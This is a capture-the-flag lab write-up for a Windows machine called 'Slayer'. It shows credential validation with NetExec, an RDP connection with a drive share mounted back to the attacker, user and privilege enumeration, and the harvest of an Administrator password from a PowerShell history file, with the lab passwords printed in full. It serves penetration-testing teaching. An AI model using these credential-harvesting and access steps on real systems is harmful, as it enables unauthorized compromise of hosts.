

# Slayer

## Objective and Scope

Following a successful social engineering engagement, you have obtained user-level credentials for a corporate workstation. Your objective is to leverage this initial access to perform deep reconnaissance on the internal Windows host. The final goal is to escalate privileges and capture the root flag from the administrator's directory to demonstrate full system compromise.

### [](https://www.hacksmarter.org/courses/530c3910-9b4d-4983-949c-126a8587b4ed/take#user-content-starting-credentials)Starting Credentials
```
tyler.ramsey:P@ssw0rd!
```
## Enumeration

Confirming the credentials provided for the test reveals that they're valid.
```bash
nxc rdp 10.1.26.75 -u 'tyler.ramsey' -p 'P@ssw0rd!'
RDP         10.1.26.75      3389   EC2AMAZ-M1LFCNO  [*] Windows 10 or Windows Server 2016 Build 26100 (name:EC2AMAZ-M1LFCNO) (domain:EC2AMAZ-M1LFCNO) (nla:True)
RDP         10.1.26.75      3389   EC2AMAZ-M1LFCNO  [+] EC2AMAZ-M1LFCNO\tyler.ramsey:P@ssw0rd! (Pwn3d!)
```

The attacker will connect with xfreerdp and mount a share back to the attacking machine.
```bash
xfreerdp3 /v:10.1.26.75 /d:'./' /u:'tyler.ramsey' /p:'P@ssw0rd!' /cert:ignore /drive:share,/home/rosskeddy/work
```

Utilizing PowerShell the attacker will check the current privileges.
```powershell
PS C:\Users\tyler.ramsey> whoami /all

USER INFORMATION
----------------

User Name                    SID
============================ ============================================
ec2amaz-m1lfcno\tyler.ramsey S-1-5-21-504046506-4146033855-177558794-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                               
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users          Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON  Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                           


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Nothing stands out for exploitation so next the attacker will check other users.
```powershell
PS C:\Users\tyler.ramsey> net users

User accounts for \\EC2AMAZ-M1LFCNO

-------------------------------------------------------------------------------
Administrator            alice.wonderland         DefaultAccount
Guest                    tyler.ramsey             WDAGUtilityAccount
The command completed successfully.
```

Further enumeration reveals the following credentials in the powershell history
`Administrator:ebz0yxy3txh9BDE*yeh`
```powershell
PS C:\Users\tyler.ramsey> cmdkey /list

Currently stored credentials:

* NONE *

PS C:\Users\tyler.ramsey> cat C:\Users\tyler.ramsey\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net user administrator "ebz0yxy3txh9BDE*yeh"

<SNIP>
```

## Privilege Escalation

Utilizing the credentials, the attacker will validate them with NetExec and then simply connect with RDP. Compromising the machine.
```bash
➜ nxc smb 10.1.26.75 -u 'Administrator' -p 'ebz0yxy3txh9BDE*yeh'         
SMB         10.1.26.75      445    EC2AMAZ-M1LFCNO  [*] Windows 11 / Server 2025 Build 26100 x64 (name:EC2AMAZ-M1LFCNO) (domain:EC2AMAZ-M1LFCNO) (signing:False) (SMBv1:False)
SMB         10.1.26.75      445    EC2AMAZ-M1LFCNO  [+] EC2AMAZ-M1LFCNO\Administrator:ebz0yxy3txh9BDE*yeh (Pwn3d!)

xfreerdp3 /v:10.1.26.75 /d:'./' /u:'Administrator' /p:'ebz0yxy3txh9BDE*yeh' /cert:ignore /drive:share,/home/rosskeddy/work
```


*Defender popped from trying to use psexec.py to connect*